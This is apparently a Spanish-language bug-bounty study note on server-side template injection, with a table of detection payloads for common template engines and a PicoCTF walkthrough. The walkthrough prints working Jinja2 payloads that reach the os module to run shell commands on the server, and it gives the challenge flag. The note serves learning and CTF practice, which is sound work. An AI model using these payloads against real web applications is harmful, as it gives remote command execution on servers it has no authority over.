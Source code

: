 ```yaml
---
{"dg-publish":true,"permalink":"/bug-bounty/template-injection/server-side-template-injection/","dgPassFrontmatter":true}
---
```


Server-Side Template Injection (SSTI) es una vulnerabilidad web que ocurre cuando una aplicacion del lado del servidor (server-side) evalua dinamicamente plantillas (templates) con entradas controladas por el usuario sin una validacion adecuada.

# Que es exactamente una plantilla (template)?

Una plantilla es como un molde con partes fijas (como HTML) y espacios para rellenar con datos que el servidor pone.
Por ejemplo imagina este HTML:

```
<h1>Hola {{ nombre }}</h1>
```
El **{{ nombre }}** es una expresion de plantilla, que se reemplaza automaticamente por un valor en el servidor, como:

```
<h1> Hola Cesar </h1>
```

# Como identificar un SSTI
1. Debemos encontrar un punto de inyeccion: un campo de entrada que luego se renderiza en una pagina (por ejemplo: name, message, comment).
2. Prueba con paylodas simples de cada motor de plantillas para ver si se evaluan.
	1. Si te sale el resultado calculado (por ejemplo 4), tienes SSTI.
Aqui tienes una tabla con pyloads de prueba de motores comunes:

| Motor            | Payload de prueba |
| ---------------- | ----------------- |
| Jinja2 (Python)  | {{7*7}}           |
| Twig (PHP)       | {{7*7}}           |
| Velocity (Java)  | #set($x=7*7) $x   |
| Freemaker (java) | ${7*7}            |
| Smarty (PHP)     | {$smarty.version} |

Si la salida es 49 estas ejecutando codigo dentro de la plantilla.

Procederemos a mostrar de que va la vulnerabilidad con un ejercicio de PicoCTF:

![Pasted image 20250716192706.png](/img/user/Pasted%20image%2020250716192706.png)

Accedemos al link y tenemos la siguiente pagina:

![Pasted image 20250716192734.png](/img/user/Pasted%20image%2020250716192734.png)

Observando mas de cerca tenemos lo siguiente:

![Pasted image 20250716192758.png](/img/user/Pasted%20image%2020250716192758.png)

Nos dice que el sitio nos permite anunciar cualquier cosa que queramos.

Probamos con payloads basicos como: **{{7x7}}***

Ahora vemos que nos devuelve el calculo:

![Pasted image 20250716192932.png](/img/user/Pasted%20image%2020250716192932.png)

Por lo tanto estamos tratando con Server Side Template Injection.

Procedemos a probar algunos paylods para saber mas informacion, debemos buscar variantes ya que puede que haya atributos bloqueados.


```
# Este payload te permite ejecutar un comando en el servidor:
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}


# Otros equivalentes:
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}

{{''.__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['os'].popen('cat flag.txt').read()}}

```

En este caso me funcion el segundo:

```
# Para saber que usuarios somos
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}

# Ver el contenido
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

# Mostrar la flag correspondiente al reto
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```

![Pasted image 20250716193353.png](/img/user/Pasted%20image%2020250716193353.png)

![Pasted image 20250716193418.png](/img/user/Pasted%20image%2020250716193418.png)

![Pasted image 20250716193440.png](/img/user/Pasted%20image%2020250716193440.png)

Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}

